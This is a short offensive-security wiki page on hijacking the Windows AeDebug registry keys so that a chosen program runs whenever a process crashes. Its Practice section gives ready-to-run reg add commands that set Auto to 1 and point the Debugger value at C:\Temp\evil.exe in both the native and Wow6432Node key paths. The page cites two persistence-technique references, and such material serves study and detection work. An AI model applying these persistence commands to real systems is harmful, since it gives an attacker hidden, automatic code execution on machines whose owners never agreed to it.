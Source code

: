 # AEDebug Keys

## Theory

The executable in the Debugger property is run when a process crashes. Gained access depends on whose context the debugged process runs in; if the Auto property of the same registry key is set to 1, the debugger starts without user interaction.

{% hint style="info" %}
&#x20;A value of `C:\Windows\system32\vsjitdebugger.exe` might be seen if you have Visual Studio Community installed.
{% endhint %}

## Practice

{% hint style="danger" %}
By editing AEDebug, the original debugger exe will not start
{% endhint %}

{% tabs %}
{% tab title="AeDebug" %}
You can run a malicious code instead of the debugger by editing `Auto` and `Debugger` values under following keys:

* `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug`
* `HKCU\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug`

```powershell
# Starts without user interaction
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Auto" /t REG_SZ  /d "1"
# Edit debugger
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Debugger" /d "C:\Temp\evil.exe"

#Or

# Starts without user interaction
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Auto" /t REG_SZ /d "1"
# Edit debugger
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Debugger" /d "C:\Temp\evil.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.hexacorn.com/blog/2013/09/19/beyond-good-ol-run-key-part-4/" %}

{% embed url="https://persistence-info.github.io/Data/aedebug.html" %}
